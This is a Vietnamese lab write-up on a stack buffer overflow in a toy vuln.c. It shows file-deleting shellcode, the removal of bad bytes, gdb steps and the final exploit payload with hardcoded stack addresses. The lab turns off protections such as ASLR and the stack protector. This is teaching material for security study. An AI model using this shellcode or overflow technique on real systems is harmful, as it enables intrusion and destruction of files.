# LAB2
## Injection code to delete file via vuln.c




Đầu tiên truy cập vào máy ảo sử dụng câu lệnh: `docker run -it --privileged -v $HOME/Seclabs:/home/seed/seclabs img4lab`

Câu lệnh này giúp cho máy ảo liên kết thư mục Seclabs trên hệ điều hành Window với hệ điều hành của máy ảo

1 vấn đề là ở Ubuntu 16.04 thì nó đã có cơ chế bảo vệ không thể nào injection code vào được. Chúng ta buộc phải dùng 1 cái loại bash cũ hơn bằng câu lệnh: `sudo ln -sf /bin/zsh /bin/sh`

Và để cho cái quá trình thực hiện bài này dễ hơn. Ta sẽ tắt cấp phát địa chỉ ngẫu nhiên của hệ điều hành sử dụng câu lệnh: `sudo sysctl -w kernel.randomize_va_space=0`

Sau đó, chúng ta sẽ đi biên dịch và liên kết file_del.asm sử dụng 2 câu lệnh: `nasm -g -f elf file_del.asm` và `ld -m elf_i386 -o file_del file_del.o`



Sau đó có thể lấy chuỗi thập lục phân của chương trình file_del.asm bằng cách sử dụng câu lệnh: `for i in $(objdump -d file_del |grep "^ " |cut -f2); do echo -n '\x'$i; done;echo`

Rađược
`\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00\xdummyfile.` 

Nhưng chúng ta sẽ không cần xdummyfile nên sẽ chỉ còn `\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00.`

Sau đó chúng ta sẽ biên dịch chương trình vuln.c để mà nó có thể thực hiện code ở trên stack sử dụng câu lệnh: `gcc -g vuln.c -o vuln.out -fno-stack-protector -z execstack -mpreferred-stack-boundary=2`

Cuối cùng tạo ra 1 dummyfile:

Stack frame của vuln.c:

Nếu chúng ta muốn thực thi mã file_del trên stack, chúng ta cần tràn bộ đệm để địa chỉ trả về trỏ đến đỉnh của esp nơi mã sẽ nằm. Điều này sẽ bao gồm 36 byte chuỗi hex + 32 byte padding + 4 byte của esp. Nhưng trước tiên chúng ta có thể chèn 4 byte xff vào esp để theo dõi quá trình

Chúng ta có thể đặt 2 breakpoint ở 2 địa chỉ: 0x0804843e and 0x0804846b

Sau đó sử dụng câu lệnh: `r $(python –c “print (‘\xeb\x13\xb8\x0a\x00\x00\x00\xbb\x7a\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00’ + ‘a’*32 + ‘\xff\xff\xff\xff)”)`



Sử dụng câu lệnh `x/80xb $esp`. Ta có thể thấy được toàn cảnh stack frame. Ở bài này, tôi sẽ dùng màu đỏ cho buf, cam đậm cho esp, vàng cho địa chỉ trở về

Chúng ta tiếp tục



Sử dụng `x/80xb $esp` lần nữa để xem toàn bộ stack frame:

So sánh với chuỗi thập lục phân của chương trình file_del, 3 giá trị đầu tiên giống nhau nhưng sau đó thì mọi thứ khác hết. Bởi vì chúng ta có \x0a trong dãy thập lục phân



Ở đây có 3 giá trị chúng ta cần chú ý: `\x0a` là ký tự xuống dòng (line feed), `\x09` là ký tự tab ngang (horizontal tab), và `\x00` là ký tự null. Chúng ta cần phải tránh 3 giá trị này bởi vì khi nhập vào trong C, các giá trị sau đó sẽ không được xử lý nữa

Ở đây giá trị `\x0a` đến từ dòng move eax,10 => chúng ta sẽ thay thế nó sử dụng 2 câu lệnh: `mov eax,8` và `add eax,2`



Biên dịch lại lần nữa và chúng ta có chuỗi thập lục phân:

`\xeb\x16\xb8\x08\x00\x00\x00\x83\xc0\x02\xbb\x7d\x80\x04\x08\xcd\x80\xb8\x01\x00\x00\x00\xcd\x80\xe8\xe5\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00`

Nhưng như tôi đã đề cập ở trên, chúng ta cũng cần phải tránh chuỗi \x00. `\x08\x00\x00\x00` và `\x01\x00\x00\x00` đến từ việc chúng ta sử dụng thanh ghi 32 bit (trong trường hợp này là eax), nhưng chúng ta chỉ chèn 1 byte (trong trường hợp này là 1 và 8). Chúng ta có thể sử dụng AL để tránh điều này.



Tôi thêm lệnh xor eax, eax để xóa đi thanh ghi sau mỗi lần sử dụng để tránh việc có lỗi xảy ra trong quá trình thực hiện cho chắc ăn. Biên dịch và lấy chuỗi thập lục phân lần nữa

`\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x00` Cái náy vẫn có độ dài là 36 bytes

Nhưng chúng ta có `x00` ở cuối, chúng ta sẽ phải đổi sang 1 giá trị khác với 3 giá trị không nên có ở trên. Tôi sẽ đổi thành `x0c`. Sử dụng câu lệnh: `r $(python –c “print (‘\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0c’ + ‘a’*32 + ‘\xff\xff\xff\xff')”)`

Theo như hình giá trị của địa chỉ esp là 0xffffd648. Chúng ta cần phải đổi `\xff\xff\xff\xff` sang `\x48\xd6\xff\xff` .Sử dụng câu lệnh: `r $(python –c “print (‘\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\x0c’ + ‘a’*32 + ‘\x48\xd6\xff\xff')”)`

Chúng ta cần phải đổi `0x0c` sang `0x00` ở địa chỉ  0xffffd66b sử dụng câu lệnh : `0xffffd66b = 0x00`

Tuyệt, chúng ta đã có thể tiếp tục chương trình để thử

Tuy nhiên thì dummyfile vẫn còn ở đó? Tại sao vậy? Chúng ta cần phải nhìn vào assembly code



Cái dummyfile trong asembly đến từ địa chỉ 080407a. Chúng ta sẽ nhìn lại chương trình C trong gdb. Thêm 2 màu: màu hồng là địa chỉ của dãy dummyfile, màu xanh là nơi dummyfile nằm

Như hình đã thể hiện, dãy dummyfile hiện giờ trong chương trình C nằm ở địa chỉ 0xffffd662 chứ không phải 0x080407a

Chúng ta cần phải chỉnh lại ô nhớ 0xffffd651 chỉ tới 0xffffd662 bằng cách sử dụng câu lệnh: `set *0xffffd651 = 0xffffd662` và cũng nên nhớ chỉnh ô nhớ chứa giá trị 0x0c thành 0x00!

Tiếp tục chương trình. Chúng ta có thể thấy được dummyfile đã bị xóa

Nhưng chúng ta có thể thấy điều này rất bất tiện nếu cứ set nhiều như vậy

Chúng ta có thể thử nhìn 100 bytes từ esp



Từ ảnh có thể thấy được từ ô nhớ 0xffffd9c, ta có 13 bytes `0x00`! Chúng ta có thể tận dụng điều này để lưu chuỗi dummyfile



Chúng ta cần phải tính toán:
+ \xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7a\x80\x04\x08\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff : 26 bytes
+ x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\: 9 bytes, chúng ta không cần \x00 bởi vì 13 bytes đã có sẵn
+ x9c\xfd\xff\xff : sẽ là nơi địa chỉ dummyfile bắt đầu
Vì vậy chuỗi sẽ là : `\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x9c\xfd\xff\xff\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff + 42 bytes padding + \x48\xd6\xff\xff + 12 bytes padding + x64\x75\x6d\x6d\x79\x66\x69\x6c\x65\`

Vì vậy câu lệnh chúng ta cần là : 
`$(python –c “print(‘\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x9c\xfd\xff\xff\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff’  + ‘a’*42 + ‘\x48\xd6\xff\xff’ + ‘a’ * 12 + ‘x64\x75\x6d\x6d\x79\x66\x69\x6c\x65’  )”)`

Tuy nhiên vì chương trình lớn nên đã được đẩy lên bắt đầu từ 0xffffd628! Chúng ta cần phải thay đổi
+ Địa chỉ của esp mới: \x28\xd6\xff\xff
+ Địa chỉ của dãy dummyfile mới: x7c\xd6\xff\xff

Câu lệnh cuối cùng: `$(python –c “print(‘\xeb\x13\x31\xc0\xb0\x08\x04\x02\xbb\x7c\xd6\xff\xff\xcd\x80\x31\xc0\xb0\x01\xcd\x80\xe8\xe8\xff\xff\xff’  + ‘a’*42 + ‘\x28\xd6\xff\xff’ + ‘a’ * 12 + ‘\x64\x75\x6d\x6d\x79\x66\x69\x6c\x65’)”)`

Trước khi chạy:

Sau khi chạy:

